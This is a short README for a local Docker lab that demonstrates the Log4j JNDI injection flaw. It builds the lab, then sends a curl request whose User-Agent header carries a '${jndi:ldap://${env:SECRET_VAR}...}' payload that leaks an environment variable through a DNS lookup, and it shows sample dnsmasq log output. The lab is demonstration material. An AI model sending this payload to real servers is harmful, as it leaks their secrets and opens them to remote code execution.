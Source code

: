 # Log4j RCE Vuln

## Requirements

* maven 3.2+
* java 11
* docker

## Running Locally

![demo](demo.gif)

In one terminal tab run:

```bash
mvn install && docker-compose up --build
```

In another terminal tab run:

```bash
curl -s "http://localhost:8080/" -H 'User-Agent: ${jndi:ldap://${env:SECRET_VAR}.log4j2.internal/a}'
```

And watch the output in the first tab.  You will see something like the following

```text
Dec 13 05:54:09 dnsmasq[17]: query[A] 12345.dw.internal from 172.16.238.11
Dec 13 05:54:09 dnsmasq[17]: forwarded 12345.log4j2.internal to 10.0.0.1
```